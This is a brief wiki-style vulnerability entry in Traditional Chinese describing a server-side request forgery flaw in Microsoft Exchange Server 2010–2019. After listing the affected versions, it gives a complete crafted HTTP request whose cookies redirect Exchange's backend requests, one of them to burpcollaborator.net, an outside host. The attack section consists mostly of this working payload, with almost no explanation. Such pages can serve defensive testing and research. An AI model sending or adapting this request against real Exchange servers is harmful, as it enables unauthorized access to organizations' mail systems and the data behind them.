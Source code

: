 <languages />

漏洞簡介
--------

Exchange服務器端請求偽造（SSRF）漏洞，利用此漏洞的攻擊者能夠發送任意HTTP請求並通過Exchange Server進行身份驗證。

影響範圍
--------

Microsoft Exchange Server: 2010

Microsoft Exchange Server: 2013

Microsoft Exchange Server: 2016

Microsoft Exchange Server: 2019

SSRF
----

    GET /owa/auth/x.js HTTP/1.1
    Host: 0.0.0.0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
    Cookie: X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
    Accept-Language: en
    Connection: close

[檔案:Ssrf.jpg](檔案:Ssrf.jpg "wikilink")
